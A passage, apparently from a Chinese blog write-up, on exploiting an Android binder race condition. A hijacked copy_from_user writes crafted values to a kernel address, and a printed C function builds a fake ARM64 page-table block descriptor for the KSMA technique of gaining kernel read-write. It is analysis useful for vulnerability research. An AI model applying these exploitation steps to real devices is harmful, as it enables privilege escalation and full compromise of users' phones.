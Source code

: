改变了几个值，event->name_len = len; 是关键

![](https://img-blog.csdnimg.cn/7995eaa8fde042b2b69f9be9acb8d782.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)  
![](https://img-blog.csdnimg.cn/45b7a6c12d1c4b6a8cb6154a90bc5e2e.png?x-oss-process=image/watermark,type_d3F5LXplbmhlaQ,shadow_50,text_Q1NETiBAMjAwMDBz,size_20,color_FFFFFF,t_70,g_se,x_16#pic_center)

注意 async_transaction 为 0，所以名字要大于 4, 之后子线程继续 binder_transaction 此时 binder_buffer->data 已经被我们覆盖成 0xffffffc001e50834 data_size 为 20

```
//binder_transaction
if (copy_from_user(t->buffer->data, (const void __user *)(uintptr_t)
			   tr->data.ptr.buffer, tr->data_size)) {
		binder_user_error("%d:%d got transaction with invalid data ptr\n",
				proc->pid, thread->pid);
		return_error = BR_FAILED_REPLY;
		return_error_param = -EFAULT;
		return_error_line = __LINE__;
		goto err_copy_data_failed;
	}
	if (copy_from_user(offp, (const void 

```

所以在 0xffffffc001e50834 的位置上写上 1，1，0，0x80000e71，于是 raceTimes 正式结束

现在说一下 ksma 部分，就是 0xffffffc001e50834 的位置上写上 1，1，0，0x80000e71 是什么意思

0x80000e71 是这么来的 这是伪造 的 d_block 描述符

```
unsigned long get_fack_block(unsigned long phys_addr)//0x800000 内核镜像加载的起始物理地址 memstart_addr
{
	unsigned long fake_d_block = 0l	;
	// d_block 中的内容，主要是修改 AP[2:1], 修改为读写属性
    	// bit[1:0]
    	fake_d_block = fake_d_block | (0x0000000000000001);     //                  Y
    	// bit[11:2] lower block attributes
    	fake_d_block = fake_d_block | (0x0000000000000800);     // nG, bit[11]      Y
    	fake_d_block = fake_d_block | (0x0000000000000400);     // AF, bit[10]      Y
    	fake_d_block = fake_d_block | (0x0000000000000200);     // SH, bits[9:8]
    	fake_d_block = fake_d_block | (0x0000000000000040);     // AP[2:1], bits[7:6]
    	fake_d_block = fake_d_block | (0x0000000000000020);     // NS, bit[5]       Y
   	fake_d_block = fake_d_block | (0x0000000000000010);     // AttrIndx[2:0], bits[4:2]
    	// bit[29:12] RES0
    	// bit[47:30] output address
    	fake_d_block = fake_d_block | (phys_addr & 0x0000ffffc0000000);
    	// bit[51:48] RES0
    	// bit[63:52] upper block attributes, [63:55] ignored
    	//fake_d_block = fake_d_block | (0x0010000000000000);     // Contiguous, bit[52]
    	//fake_d_block = fake_d_block | (0x0020000000000000);     // PXN, bit[53]
    	//fake_d_block = fake_d_block | (0x0040000000000000);     // XN, bit[54]
	return fake_d_block;
}

```
